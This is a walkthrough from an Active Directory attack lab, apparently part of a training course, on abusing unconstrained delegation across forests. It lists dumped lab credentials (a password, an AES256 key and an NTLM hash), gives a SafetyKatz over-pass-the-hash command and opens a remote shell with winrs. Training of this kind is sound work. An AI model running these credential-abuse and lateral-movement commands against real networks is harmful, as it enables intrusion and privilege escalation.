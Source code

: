# Hands-on 24: Cross Forest Attacks - Unconstrained Delegation

- [Hands-on 24: Cross Forest Attacks - Unconstrained Delegation](#hands-on-24-cross-forest-attacks---unconstrained-delegation)
  - [Task](#task)
  - [Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local](#abuse-the-unconstrained-delegation-on-us-web-to-get-enterprise-admin-privileges-on-usvendorlocal)

---

## Task

Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local

<br/>

---

## Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local

In [Hands-on 10](l10-Exchange.md), we dumped the following credential:

Note:
`us\webmaster`
- Password: `0wnerOftheIntraNetz`
- AES256: `2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0`
- NTLM: `23d6458d06b25e463b9666364fb0b29f`

<br/>

Over-pass-the-hash using this credential in an elevated prompt:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /run:powershell.exe" "exit"
```

```
winrs -r:us-web.techcorp.local cmd.exe
```

<br/>

